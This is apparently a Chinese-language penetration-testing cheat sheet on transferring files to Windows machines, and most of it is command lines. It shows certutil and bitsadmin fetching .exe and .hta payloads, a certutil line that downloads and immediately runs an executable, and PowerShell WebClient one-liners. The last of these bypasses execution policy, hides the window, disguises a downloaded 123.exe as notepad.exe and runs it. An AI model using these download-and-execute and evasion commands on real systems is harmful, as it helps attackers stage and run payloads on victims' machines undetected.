 # 文件传输方法

## Windows文件传输

### Bitsadmin

- 命令行工具，可以创建下载或上传作业，并监视其进度
- [bitsadmin | Microsoft Docs](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/bitsadmin)

```cmd
bitsadmin /transfer shell http://192.168.1.165/test.hta C:\Windows\temp\test.hta
```

- `/transfer`: 用于创建一个新的传输任务
- `shell`: 任务名称，可以任意指定

### Certuil

- `windows` 命令行程序, 主要用于管理、查看、配置证书以及与证书相关的服务。包含多种功能，可以用于证书的导入、导出、列出等操作。

- [certutil | Microsoft Docs](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/certutil)

  ```cmd
  certutil -urlcache -split -f http://192.168.1.165/test.exe C:\windows\temp\test.exe & start C:\windows\temp\test.exe
  ```

- `urlcache`: 这个参数指示`certutil`将url作为缓存来处理，允许`certutil`从url下载文件。

- `split` : 将url的内容分割成多个部分，通常用于大文件下载

- `f` : 强制覆盖

### powershell

1. DownloadFile

   ```cmd
   # 创建一个&nbsp;System.Net.WebClient 对象，并将其存储在变量&nbsp;$d&nbsp;中
   $d = New-Object System.Net.WebClient
   
   # 调用对象的DownloadFile方法下载文件
   $d.DownloadFile("https://pastebin.com/raw/M676F14U","s.txt")
   
   # 使用 powershell -c 来执行一个字符串形式的命令
   powershell -c "$p=new-object system.net.webclient;$p.DownloadFile('https://pastebin.com/raw/M676F14U','s.txt')"
   
   powershell -command "(new-object system.net.webclient).downloadfile('https://pastebin.com/raw/M676F14U','s.txt')"
   
   # 使用 powershell 命令直接执行
   powershell (new-object system.net.webclient).downloadfile('https://pastebin.com/raw/M676F14U','s.txt')
   
   # 远程下载文件到本地执行
   cmd /c powershell -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://127.0.0.1:8080/123.exe','notepad.exe');start-process notepad.exe
   ```
